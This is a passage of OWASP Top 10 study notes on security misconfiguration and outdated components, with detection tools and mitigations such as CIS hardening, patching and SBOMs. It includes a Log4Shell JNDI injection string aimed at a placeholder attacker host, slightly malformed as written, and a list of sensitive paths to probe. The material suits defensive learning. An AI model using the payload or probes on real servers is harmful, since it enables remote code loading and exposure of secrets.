 | Type | Description |
|---------|------------------|
| Default Credentials | `admin/admin` for admin consoles |
| Unpatched Systems | Unupdated Apache/WordPress |
| Overly Permissive CORS | Allowing `*` origins |
   
#### Finding - Security Misconfiguration
- Scan with OWASP ZAP/Nessus.
- Check `/robots.txt`, `/.env`, `phpinfo.php`
   - **How to find**: Tools: Nmap, Nessus, ScoutSuite (for cloud), manual review.
#### Mitigations -  Security Misconfiguration
- Automate hardening (CIS Benchmarks).
    - CIS Benchmarks are secure configuration recommendations for hardening various technologies, including operating systems, databases, and network devices.
- Disable directory listing and debug mode.
    - Disabling directory listing prevents attackers from browsing directory structures and potentially accessing sensitive files. (Nginx autoindex off).
    - Disabling debug mode in production environments prevents sensitive information (e.g., stack traces, detailed error messages) from being displayed to users, which can reveal underlying system flaws or component versions.(app.config['DEBUG'] = False)
- Use minimal CORS policies.
    - Configure your web server or application framework to set the `Access-Control-Allow/Origin, Headers` header with the specific allowed origins.

## A6 - Vulnerable and Outdated Components
- **Core Concept** Using libraries/frameworks/plugins with known vulnerabilities in third-party services.
- Process:
- Inventory dependencies; check versions; scan for known CVEs.
    - Identify versions via `package.json` /HTTP headers.
    - Exploit CVEs (e.g., Log4Shell: `${jndi:ldap//attacker}`)

| Type | Example |
|---------|-----------|
| Library Vulnerabilities| lodash prototype pollution (CVE-2020-8203) |
| Server Vulnerabilities | Unpatched Jenkins/WordPress |
#### Finding - Vulnerable and Outdated Components
- Use OWASP Dependency-Check/Snyk.
- Monitor CVE Databases
   - **How to find**: SCA tools:Snyk, OWASP Dependency-Check.
#### Mitigations - Vulnerable and Outdated Components 
- Patch management automation.
    - Automating the patching process ensures that security updates and patches are applied to your systems and applications consistently and efficiently.
- Virtual patching via WAFs.
    - Virtual patching leverages a Web Application Firewall (WAF) or Intrusion Prevention System (IPS) to detect and block attacks(exploit known vulnerabilities,) targeting specific vulnerabilities.
- Maintain SBOM (Software Bill of Materials).
    - A Software Bill of Materials (SBOM) is a comprehensive list of all software components used in a product, including open-source and proprietary components, their versions, and licenses.
